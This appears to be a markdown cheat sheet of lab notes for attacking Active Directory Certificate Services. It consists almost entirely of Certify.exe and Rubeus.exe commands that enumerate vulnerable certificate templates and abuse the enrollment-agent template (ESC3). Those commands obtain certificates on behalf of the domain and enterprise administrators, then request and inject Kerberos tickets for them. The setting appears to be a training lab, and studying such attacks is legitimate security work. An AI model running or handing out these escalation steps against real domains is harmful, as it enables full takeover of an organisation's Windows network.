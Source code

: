 
# AD CS Certificates
## Enumerate (and for other attacks) AD CS in the target forest:
`Certify.exe cas`
## Enumerate the templates.:
`Certify.exe find`
## Enumerate vulnerable templates(This only checks if domain users have enrolemnt rights on any template) The attack surface is huge so dont trust this:  
`Certify.exe find /vulnerable`

## The template "SmartCardEnrollment-Agent" allows Domain users to enroll and has "Certificate Request Agent" EKU.
`Certify.exe find /vulnerable`
## The template "SmartCardEnrollment-Users" has an Application Policy Issuance Requirement of Certificate Request Agent and has an EKU that allows for domain authentication. Search for domain authentication EKU:
`Certify.exe find /json /outfile:C:\AD\Tools\file.json ((Get-Content C:\AD\Tools\file.json | ConvertFrom-Json).CertificateTemplates | ? {$_.ExtendedKeyUsage -contains "1.3.6.1.5.5.7.3.2"}) | fl *`

## Escalation to DA, We can now request a certificate for Certificate Request Agent from "SmartCardEnrollment-Agent" template.
`Certify.exe request /ca:mcorp-dc.moneycorp.local\moneycorp-MCORP-DC-CA/template:SmartCardEnrollment-Agent`
## Convert from cert.pem to pfx (esc3agent.pfx below) and use it to request a certificate on behalf of DA using the "SmartCardEnrollment-Users" template.
`Certify.exe request /ca:mcorp-dc.moneycorp.local\moneycorp-MCORP-DC-CA /template:SmartCardEnrollment-Users /onbehalfof:dcorp\administrator /enrollcert:esc3agent.pfx /enrollcertpw:SecretPass@123`
## Convert from cert.pem to pfx (esc3user-DA.pfx below), request DA TGT and inject it:
`Rubeus.exe asktgt /user:administrator /certificate:esc3user-DA.pfx /password:SecretPass@123 /ptt`

## scalation to EA, Convert from cert.pem to pfx (esc3agent.pfx below) and use it to request a certificate on behalf of EA using the "SmartCardEnrollment-Users" template.
`Certify.exe request /ca:mcorp-dc.moneycorp.local\moneycorp-MCORP-DC-CA /template:SmartCardEnrollment-Users /onbehalfof:moneycorp.local\administrator /enrollcert:esc3agent.pfx /enrollcertpw:SecretPass@123`
## Request EA TGT and inject it:
`Rubeus.exe asktgt /user:moneycorp.local\administrator /certificate:esc3user.pfx /dc:mcorp-dc.moneycorp.local /password:SecretPass@123 /ptt`
